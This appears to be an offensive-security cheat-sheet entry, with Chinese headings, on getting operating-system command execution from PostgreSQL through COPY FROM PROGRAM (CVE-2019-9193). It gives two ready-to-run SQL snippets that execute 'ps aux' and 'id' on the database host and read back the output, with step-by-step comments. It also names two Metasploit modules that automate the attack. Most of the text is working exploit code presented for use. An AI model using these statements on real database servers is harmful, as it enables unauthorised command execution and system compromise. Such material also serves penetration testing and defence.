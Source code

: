 ## 命令执行

### PROGRAM

```sql
DROP TABLE IF EXISTS myoutput;
CREATE TABLE myoutput(filename text);
COPY myoutput FROM PROGRAM 'ps aux';
SELECT * FROM myoutput ORDER BY filename ASC;
```

### CVE-2019-9193

```sql
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

可以使用 Metasploit 框架直接利用：

> + multi/postgres/postgres_copy_from_program_cmd_exec
> + exploit/linux/postgres/postgres_payload
